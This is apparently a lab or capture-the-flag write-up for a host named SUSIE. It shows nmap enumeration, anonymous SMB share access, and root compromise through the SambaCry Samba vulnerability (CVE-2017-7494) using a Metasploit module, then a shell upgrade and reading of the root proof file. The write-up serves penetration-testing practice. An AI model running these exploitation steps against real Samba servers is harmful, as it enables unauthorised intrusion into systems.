





## Enumeration
### NMAP

```bash
nmap -sC -sV -v -Pn -oN scans/nmap.txt 10.11.1.146
```

```text
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:73:a9:48:81:9d:90:bc:70:75:81:8a:3d:e8:95:6f (RSA)
|   256 0e:76:22:d0:20:ca:1e:96:e9:7b:a5:9a:86:e7:f6:d4 (ECDSA)
|_  256 57:e1:e4:06:a3:79:6d:03:53:6c:d6:7b:67:ed:86:dc (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.4-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SUSIE; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-07-25T05:30:35
|_  start_date: N/A
|_clock-skew: mean: 1h20m00s, deviation: 2h18m35s, median: 0s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.4-Ubuntu)
|   Computer name: \x00
|   NetBIOS computer name: SUSIE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-07-25T01:30:34-04:00
```

### SMB

We are able to get anonymous access to list SMB shares.

```bash
smbclient -L //10.11.1.146 -N
```

  

We're able to access the `SusieShare`.

```bash
smbclient -N //10.11.1.146/SusieShare
```

We can download files from this share. There's a single file `FsSRC.txt` which is empty.

  

## Root Shell
### Exploit

If we look back at the NMAP scan, it shows the version for the `samba` server. If we look this up we find `SambaCry` [CVE-2017-7494](https://nvd.nist.gov/vuln/detail/CVE-2017-7494) also known as `is_known_pipename()`.

We can use the `linux/samba/is_known_pipename()` module in `metasploit`.

```bash
sudo msfconsole

use linux/samba/is_known_pipename
set rhost 10.11.1.146
exploit
```

  

Upgrade shell.

```bash
script -qc /bin/bash /dev/null
export TERM=xterm
```

  

### Proof

```bash
cat /root/proof.txt && ifconfig

78279a04f7020f4fb4599242fcfe70af
```

  